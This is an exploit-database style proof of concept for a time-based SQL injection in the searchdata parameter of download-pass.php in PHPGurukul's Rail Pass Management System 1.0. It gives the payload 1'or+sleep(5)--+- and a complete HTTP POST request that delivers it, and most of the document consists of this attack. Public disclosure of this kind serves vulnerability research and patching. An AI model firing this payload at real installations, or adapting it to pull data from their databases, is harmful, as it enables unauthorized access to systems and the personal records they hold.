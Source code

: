 # Rail Pass Management System - 'searchdata' Time-Based SQL Injection
- Exploit Author: Alperen Yozgat
- Vendor Homepage: https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/
- Software Link: https://phpgurukul.com/?sdm_process_download=1&download_id=17479
- Version: 1.0
- Tested On: Kali Linux 6.1.27-1kali1 (2023-05-12) x86_64 + XAMPP 7.4.30
- https://www.exploit-db.com/exploits/51790

## Description
On the download-pass.php page, the searchdata parameter in the search function is vulnerable to SQL injection vulnerability.
## Proof of Concept
After sending the payload, the response time will increase to at least 5 seconds.
Payload: 1'or+sleep(5)--+-

## HTTP Request
```
POST /rpms/download-pass.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Cookie: PHPSESSID=6028f950766b973640e0ff64485f727b


searchdata=1'or+sleep(5)--+-&search=
```
